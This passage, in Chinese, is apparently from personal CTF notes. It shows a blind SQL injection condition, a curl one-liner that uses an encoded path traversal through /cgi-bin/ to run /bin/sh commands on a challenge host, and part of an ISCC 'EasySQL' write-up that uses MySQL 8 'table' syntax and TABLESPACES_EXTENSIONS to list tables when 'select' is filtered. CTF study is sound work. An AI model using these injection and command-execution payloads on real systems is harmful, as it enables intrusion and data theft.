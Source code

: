 如果error(查询失败)，则<font color="pink">ascii(substr(database(),%d,1))>0</font>返回1

然后bp爆破...请求过多...爆破不了

py脚本还不会，只能暂时放这了，py学会了再来做吧

curl -X POST -d "echo;cat vdir" http://1.116.210.145:28794/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh



### ISCC-EasySQL(mysql8&虚拟表绕过)



题目信息

**Beaxia的邮箱地址忘记了，你能帮忙找找吗？**

进入页面

![image-20220515233318342](D:\Typora\note\CTF\web\challenge.assets\image-20220515233318342.png)

然后试试?id=1  2  3  4 ...

一直试到8，发现

![image-20220515233412604](D:\Typora\note\CTF\web\challenge.assets\image-20220515233412604.png)

接下来就是找他的邮箱

随意fuzz一下，select被过滤了，而这题又是查表

而且显然不是查当前后台sql语句查的表，而是其他的表

然后注出数据库 **security** version <font color='red'>8!</font>

要素察觉(被miniL折磨的)，那就只能是table了

然后table后面只能单纯的接一个表，所以不能用information_schema来获取表和列

`select table_schema,table_name from information_schema.tables where table_schema='pikachu';`

于是又去查了一下mysql8的特性，发现了一个有意思的表

**information_schema.TABLESPACES_EXTENSIONS**

他直接存储了数据库和表(如下)

```mysql
mysql> table information_schema.TABLESPACES_EXTENSIONS;
+------------------+------------------+
| TABLESPACE_NAME  | ENGINE_ATTRIBUTE |
+------------------+------------------+
| mysql            | NULL             |
| innodb_system    | NULL             |
| innodb_temporary | NULL             |
| innodb_undo_001  | NULL             |
| innodb_undo_002  | NULL             |
| sys/sys_config   | NULL             |
| security/users   | NULL             |
| security/emails  | NULL             |
| security/flag    | NULL             |
+------------------+------------------+
9 rows in set (0.02 sec)
```
